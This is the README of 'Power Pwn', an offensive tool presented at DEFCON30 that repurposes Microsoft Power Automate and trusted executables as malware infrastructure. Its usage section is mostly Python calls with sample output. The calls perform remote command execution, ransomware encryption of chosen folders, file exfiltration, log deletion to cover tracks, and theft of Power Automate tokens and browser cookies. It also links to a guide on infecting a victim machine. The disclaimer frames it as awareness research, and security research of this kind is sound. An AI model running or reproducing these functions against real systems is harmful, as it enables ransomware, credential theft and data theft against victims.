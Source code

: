 # Power Pwn

Power Pwn is a demo showing how to repurpose Microsoft-trusted executables, service accounts and cloud services to power a malware operation.

<a href="https://powerautomate.microsoft.com/en-us/robotic-process-automation/"><img src="https://docs.microsoft.com/en-us/power-pages/media/overview/power-platform.png" alt="Power Pwn" width="500" height="250" /></a>

----

This tool was released as part of DEFCON30. For more details, see [No-Code Malware: Windows 11 At Your Service](https://github.com/mbrg/defcon30/blob/main/No_Code_Malware/readme.md).

Disclaimer: these materials are presented from an attacker’s perspective with the goal of raising awareness to the risks of underestimating the security impact of No Code/Low Code. No Code/Low Code is awesome.

## Usage

```python
from powerpwn.cli import PowerPwn
POST_URL = ""
pp=PowerPwn(post_url=POST_URL)

### code execution

# python2
pp.exec_py2("print('hello world')").CodeExec
# CodeExecOutputs(ScriptOutput='\ufeffhello world\r\n', ScriptError='')

# python2 bad syntax
pp.exec_py2("bad syntax").CodeExec
# CodeExecOutputs(ScriptOutput='', ScriptError='  File "", line 1\r\n    bad syntax\r\n        ^\r\nSyntaxError: unexpected token \'syntax\'')

# powershell
pp.exec_ps("Write-Host \"hello word\"").CodeExec

# commandline
pp.exec_cmd("echo \"hello word\"").CodeExec
# CodeExecOutputs(ScriptOutput='Microsoft Windows [Version 10.0.22000.795]\r\n(c) Microsoft Corporation. All rights reserved.\r\n\r\nC:\\Program Files (x86)\\Power Automate Desktop>echo "hello word"\r\n"hello word"\r\n\r\n', ScriptError='')

### ransomware

pp.ransomware(crawl_depth=2, dirs_to_init_crawl=["C:\\Users\\alexg\\Documents\\mystuff", "D:\\shh"], encryption_key="8d1d4245").Ransomware
# Ransomware=RansomwareOutputs(FilesFound=9, FilesAccessed=9, FilesProcessed=9, Errors='')

### exfiltration

pp.exfil(target="C:\\Users\\alexg\\Downloads\\takeit.txt").Exfil
# ExfiltrationOutputs(Success=True, FileContents='asd')
pp.exfil(target="C:\\Users\\alexg\\Downloads\\dontexist.txt").Exfil
# ExfiltrationOutputs(Success=False, FileContents='')

### cleanup

pp.cleanup().Cleanup
# CleanupOutputs(FilesFound=179, LogFilesDeleted=178)

### steal_power_automate_token

pp.steal_power_automate_token().StealPowerAutomateToken
# StealPowerAutomateTokenOutputs(Token='ey...')

### steal_cookie
pp.steal_cookie("https://www.google.com").StealCookie
# StealCookieOutputs(Cookie='1P_JAR=2022-07-16-13; OGPC=19027681-1:')
```

## How To

[How to set up your Power Pwn cloud environment](docs/cloud_setup.md)

[How to infect a victim machine](docs/infect_machine.md)

[How to troubleshoot execution errors](docs/infect_machine.md)
